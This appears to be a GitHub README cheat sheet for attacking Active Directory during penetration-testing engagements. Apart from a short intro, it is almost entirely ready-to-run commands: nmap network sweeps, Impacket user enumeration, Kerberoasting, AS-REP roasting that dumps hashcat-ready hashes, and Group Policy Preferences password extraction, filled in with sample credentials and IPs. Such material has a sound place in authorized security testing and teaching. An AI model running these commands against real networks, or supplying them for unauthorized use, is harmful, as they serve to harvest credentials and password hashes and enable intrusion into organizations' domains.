 # Ba51c_Activ3_Direct0ry_3numeration
In most engagements regarding Active Directory, credentials are king. This repo contains basic enumeration commands that will help gain more insight into the target network and its identities. 


# IP Discovery Commands
Once connected to the private/internal range of the target, these commands will assist in IP discovery as well as Services that run on the IP. 
- nmap -sn <IP/24>
- nmap -Pn <IP/24>


# Impacket to Rule them All
"What is Impacket used for?
Impacket is an open-source collection of modules written in Python for programmatically constructing and manipulating network protocols."
If credentials have been gained, they will assist with the following commands that can be run in the domain

*Enter details between the placeholders --> ()

## Getting AD Users
python3 GetADUsers.py -all '(domain)/(user):(password)' -dc-ip (IP)

## Kerberoasting 
python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request

## ASREP Roasting
python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt

## Get GPPPassword
python3 Get-GPPPassword.py 'TEST.local/john:password123@DC01.TEST.local' -dc-ip 10.10.10.1


